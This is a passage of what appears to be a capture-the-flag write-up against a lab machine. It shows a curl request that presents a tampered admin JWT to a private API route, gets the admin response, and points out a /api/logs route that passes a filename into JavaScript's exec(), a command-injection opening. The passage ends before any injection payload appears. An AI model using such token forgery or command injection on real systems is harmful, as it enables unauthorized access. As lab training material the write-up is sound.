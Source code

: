 ![jwt tampering](screenshot9.png)

We copy the obtained JWT and sent it as a request header to the API endpoint 

```bash
┌──(kali㉿kali)-[~]
└─$ curl -H 'auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MThkNmI4NzE3ODQyYTA0NTdjOGE0NmQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFkbWluMTIzQGFkbWluLmNvbSIsImlhdCI6MTYzNjY1ODMxMX0.DIylbTPk5K12O1LN3SengBhq2tJ3ZXXoAk_CfjttR3k' -X GET 10.10.11.120:3000/api/priv
```
The Response 
```
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}} 
```


We also see a private route named

    /api/logs

in the source code which takes a filename as a query and concatenates it to execute as a command on machine using javascript's 
> exec() function
